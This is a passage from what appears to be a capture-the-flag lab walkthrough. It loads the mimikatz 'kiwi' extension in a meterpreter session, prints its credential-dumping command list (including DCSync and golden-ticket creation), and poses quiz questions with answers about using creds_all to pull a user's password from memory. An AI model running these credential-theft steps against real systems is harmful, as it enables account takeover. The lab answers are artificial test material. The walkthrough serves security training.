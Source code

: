     ```bash
    meterpreter > load kiwi
    Loading extension kiwi...
    .#####.   mimikatz 2.2.0 20191125 (x64/windows)
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
    '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

    Success.
    ```

- Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`.

    ```bash
    Kiwi Commands
    =============

        Command                Description
        -------                -----------
        creds_all              Retrieve all credentials (parsed)
        creds_kerberos         Retrieve Kerberos creds (parsed)
        creds_livessp          Retrieve Live SSP creds
        creds_msv              Retrieve LM/NTLM creds (parsed)
        creds_ssp              Retrieve SSP creds
        creds_tspkg            Retrieve TsPkg creds (parsed)
        creds_wdigest          Retrieve WDigest creds (parsed)
        dcsync                 Retrieve user account information via DCSync (unparsed)
        dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
        golden_ticket_create   Create a golden kerberos ticket
        kerberos_ticket_list   List all kerberos tickets (unparsed)
        kerberos_ticket_purge  Purge any in-use kerberos tickets
        kerberos_ticket_use    Use a kerberos ticket
        kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
        lsa_dump_sam           Dump LSA SAM (unparsed)
        lsa_dump_secrets       Dump LSA secrets (unparsed)
        password_change        Change the password/hash of a user
        wifi_list              List wifi profiles/creds for the current user
        wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
    ```

- Which command allows up to retrieve all credentials?
> creds_all

- Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)
